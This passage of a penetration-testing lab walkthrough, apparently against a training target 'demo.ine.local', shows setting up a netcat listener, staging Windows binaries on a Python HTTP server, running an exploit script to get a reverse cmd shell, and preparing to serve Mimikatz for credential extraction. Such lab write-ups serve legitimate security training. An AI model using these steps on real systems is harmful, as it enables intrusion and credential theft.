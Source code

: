 ```
nc -nvlp 1234
```

-nvlp: Stands for no DNS resolution (n), verbose mode (v), listen mode (l), and specify the port (p 1234).

---

**6. Setting Up a Web Server**

In another terminal tab, we set up a simple HTTP server on port 80. This server will later be used to transfer Windows binaries to the target.

```
cd /usr/share/windows-binaries  
python3 -m http.server 80
```

This will serve all files in the `/usr/share/windows-binaries` directory over HTTP on port **80**.

---

**7. Launching the Exploit**

Return to the first terminal tab where the exploit script is located. Now, run the exploit script against the target machine:

```
python 39161.py demo.ine.local 80
```

This command sends the exploit to the target, attempting to give you a **cmd shell** on the **Netcat listener** (set up in step 5).

---

**8. Verifying the Exploit**

In the terminal tab where Netcat is running, check if you have obtained a reverse shell by running the following commands:

```
whoami  
whoami /priv
```

- `whoami`: Identifies the current user.  
- `whoami /priv`: Displays the user's privileges.

---

**9. Setting Up for Mimikatz**

We will use **Mimikatz** to extract credentials from the target. First, we need to set up another HTTP server to serve `mimikatz.exe`:

```
cd /usr/share/windows-resources/mimikatz/x64/  
python3 -m http.server 80
```
